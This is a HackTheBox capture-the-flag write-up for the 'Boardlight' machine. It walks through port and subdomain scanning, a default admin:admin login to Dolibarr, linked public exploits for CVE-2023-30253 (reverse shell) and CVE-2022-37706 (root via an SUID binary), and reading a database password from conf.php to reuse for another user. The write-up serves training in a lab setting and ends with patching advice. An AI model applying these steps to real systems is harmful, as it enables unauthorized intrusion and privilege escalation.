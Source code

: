 ```yaml
---
title: "HackTheBox - Boardlight"
author: Nasrallah
description: ""
date: 2024-09-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, rce]
img_path: /assets/img/hackthebox/machines/boardlight
image:
    path: boardlight.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Boardlight](https://hacktheboxltd.sjv.io/Nasrallah?u=https://app.hackthebox.com/machines/boardlight) from [HackTheBox](https://hacktheboxltd.sjv.io/anqPJZ) is running a website vulnerable to code injection givin us a foothold. We find a password inside a config file which we use to elevate our privileges. Then we find another vulnerable software running on the machine that we exploit to get root.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.11
Host is up (0.48s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

```

We found two open ports, 22 running OpenSSH on Ubuntu and port 80 is an Apache web server also on Ubuntu.

### Web

Let's navigate to the web page.

![webpage](1.png)

Nothing really interesting here, but we find the hostname `board.htb`, let's add that to `/etc/hosts` file.

Let's run a subdomain scan.

```terminal
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.11/ -H "Host: FUZZ.board.htb"  -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.11/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 221ms]
```

We found the subdomain `crm.board.htb` , let's add it to `/etc/hosts` file and navigate to it.

![subdomain](2.png)

It's a login page for `dolibarr` version 17.0.0

I tried `admin:admin` and managed to login

![adminpage](3.png)

Searching on google we find that this version is vulnerable to php code injection [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253).

## **Foothold**

I found the following exploit that we can use to get a reverse shell <https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253>

![revs](4.png)

## **Privilege Escalation**

I asked chatgpt where does dolibarr store database credentials and it told me at `/dolibarr/htdocs/conf/conf.php`

```terminal
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php                         
//                           
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//                            
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//                                     
$dolibarr_main_url_root='http://crm.board.htb'; 
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';      
$dolibarr_main_db_port='3306';    
$dolibarr_main_db_name='dolibarr';                                                             
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

We indeed found a password.

Let's try switching to user `larissa`.

```terminal
www-data@boardlight:/home$ su larissa
Password: 
larissa@boardlight:/home$ 
```

Now let's run linpeas and see what we can find.

![linpeas](5.png)

We found an SUID binary that's unknown.

A quick search on google we find that this is vulnerable to privilege escalation [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

The exploit I'll be using can be found here <https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit>

We copy the exploit to the machine and run it.

```terminal
larissa@boardlight:/tmp$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

We got root!

## **Prevention and Mitigation**

### CVE-2023-30253 & CVE-2022-37706

We found an external and internal software outdated with publicly available exploits.

Update to the latest vendor patch and maintain an active patch schedule for any patches that may be released in the future.

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2022-37706>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
